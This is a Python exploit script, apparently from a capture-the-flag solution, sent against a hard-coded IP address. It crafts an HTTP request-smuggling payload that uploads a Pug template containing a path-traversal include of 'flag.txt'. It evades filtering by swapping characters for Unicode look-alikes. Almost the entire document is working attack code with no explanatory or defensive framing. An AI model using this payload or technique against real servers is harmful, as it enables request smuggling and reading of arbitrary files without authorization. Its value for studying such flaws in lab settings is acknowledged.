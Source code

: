 

payload:

```python
import hashlib
from urllib.parse import quote, unquote
import requests
import socket                                                                                                          

file='''------WebKitFormBoundaryVneK8P7cpLasJSn8
Content-Disposition: form-data; name="file"; filename="a.pug"
Content-Type: ../template

doctype html
html
  head
      
  body
    include ../../../../../../flag.txt
------WebKitFormBoundaryVneK8P7cpLasJSn8--
'''.replace("\r\n","\n").replace("\n","\r\n")
body=''' HTTP/1.1
Host: x
Connection: keep-alive

POST /file_upload HTTP/1.1
Host: x
Content-Length: %d
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryVneK8P7cpLasJSn8
Connection: keep-alive

%s
GET /core HTTP/1.1
Host: x
Connection: keep-alive
x:''' %(len(file),file)
body=body.replace("\r\n","\n").replace("\n","\r\n")
uni = { 
    '/': quote('\u012f'.encode('utf-8')),
    ' ': quote('\u0120'.encode('utf-8')),
    '\n': quote('\u010a'.encode('utf-8')),
    '\r': quote('\u010d'.encode('utf-8')),
    '"': quote('\u0122'.encode('utf-8')),
    "'": quote('\u0127'.encode('utf-8')),
    '!': quote('\u0121'.encode('utf-8')),
    'o': quote('\u016f'.encode('utf-8')),
    'e': quote('\u0165'.encode('utf-8')),
}
print(uni)
host=""
payload = '%s' % body
for c, encoded in uni.items():
    payload = payload.replace(c, encoded)
print(payload)
requests.get("http://123.57.212.112:33321/core?q="+payload)

```
